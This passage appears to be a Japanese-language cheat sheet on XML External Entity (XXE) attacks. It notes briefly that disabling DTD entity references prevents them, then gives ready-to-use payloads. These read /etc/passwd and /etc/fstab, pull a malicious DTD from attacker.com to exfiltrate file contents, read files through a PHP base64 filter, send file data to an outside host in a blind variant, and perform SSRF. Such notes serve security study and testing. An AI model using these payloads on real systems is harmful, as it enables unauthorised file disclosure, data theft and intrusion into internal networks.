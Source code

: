 この脆弱性を防ぐにはDTD構文を使った実体参照の機能を禁止する必要があるらしい。   
## 例
### LFI
XMLを解析した結果をアプリケーションが返してくれる時。   
```txt
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```
上記だと`<`とかの特殊文字の入ったファイルは実体参照の後XML構文として解析されてしまって攻撃リクエストが壊れるので、そういう時はパラメータエンティティという手法を使える。   
https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/   

```txt
POST http://example.com/xml HTTP/1.1

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>


// attacker.com/evil.dtd
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents 
'%start;%file;%end;'>">
```
また、対象がPHPアプリケーションの場合、Base64エンコードすることでも可能！これならバイナリファイルも読み取れる。   
```txt
POST http://example.com/xml.php HTTP/1.1

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar SYSTEM
  "php://filter/read=convert.base64-encode/resource=/etc/fstab">
]>
<foo>
  &bar;
</foo>
```
### Blind LFI
結果がわからないときはBlindみたいにして、攻撃者の用意したサーバーにアクセスさせるしかない。   
```txt
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
```
### SSRF
外からはアクセスできないIPアドレスとかにアクセスさせることができる。   
```txt
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```